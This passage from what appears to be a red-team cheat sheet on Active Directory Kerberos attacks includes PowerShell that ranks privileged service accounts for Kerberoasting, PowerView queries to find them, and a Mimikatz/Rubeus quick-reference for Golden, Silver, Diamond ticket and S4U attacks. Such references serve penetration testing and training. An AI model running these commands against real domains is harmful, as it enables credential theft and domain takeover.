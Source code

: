 ```powershell
Write-Host "- Use strong wordlists for effective cracking" -ForegroundColor White
Write-Host "- Monitor for detection by security tools" -ForegroundColor White
```

#### **Kerberoasting Target Selection**
```powershell
# Kerberoasting Target Selection Strategy
Write-Host "=== KERBEROASTING TARGET SELECTION STRATEGY ===" -ForegroundColor Green

Write-Host "`n🎯 HIGH-VALUE TARGETS:" -ForegroundColor Yellow
Write-Host "1. Domain Admin service accounts" -ForegroundColor Red
Write-Host "2. Enterprise Admin service accounts" -ForegroundColor Red
Write-Host "3. Schema Admin service accounts" -ForegroundColor Red
Write-Host "4. Service accounts with high privileges" -ForegroundColor Red

Write-Host "`n🔍 TARGET IDENTIFICATION:" -ForegroundColor Yellow
Write-Host "# Find high-value service accounts" -ForegroundColor Cyan
Write-Host "Get-DomainUser -SPN -Properties memberof,admincount | Where-Object { $_.admincount -eq 1 }" -ForegroundColor White

Write-Host "# Find service accounts in privileged groups" -ForegroundColor Cyan
Write-Host "Get-DomainUser -SPN -Properties memberof | Where-Object { $_.memberof -like '*Domain Admins*' }" -ForegroundColor White

Write-Host "# Find service accounts with specific SPNs" -ForegroundColor Cyan
Write-Host "Get-DomainUser -SPN -Properties serviceprincipalname | Where-Object { $_.serviceprincipalname -like '*CIFS*' -or $_.serviceprincipalname -like '*LDAP*' }" -ForegroundColor White

Write-Host "`n📊 TARGET PRIORITIZATION:" -ForegroundColor Yellow
Write-Host "Priority 1: Domain Admin service accounts" -ForegroundColor Red
Write-Host "Priority 2: Enterprise Admin service accounts" -ForegroundColor Red
Write-Host "Priority 3: High-privilege service accounts" -ForegroundColor Red
Write-Host "Priority 4: Standard service accounts" -ForegroundColor Yellow
```

---

## At‑a‑Glance

### Command Quick‑Reference
| Attack | Tool | Example | Notes |
| - | - | - | - |
| Golden | Mimikatz | kerberos::golden /user:... /krbtgt:... /ptt | Domain‑wide
| Silver | Mimikatz | kerberos::golden /service:CIFS /rc4:<hash> /ptt | Service‑scoped
| Diamond | Mimikatz | modify legit TGT using krbtgt | Stealthier
| S4U chain | Rubeus | Rubeus.exe s4u /user:websvc ... | CD/RBCD
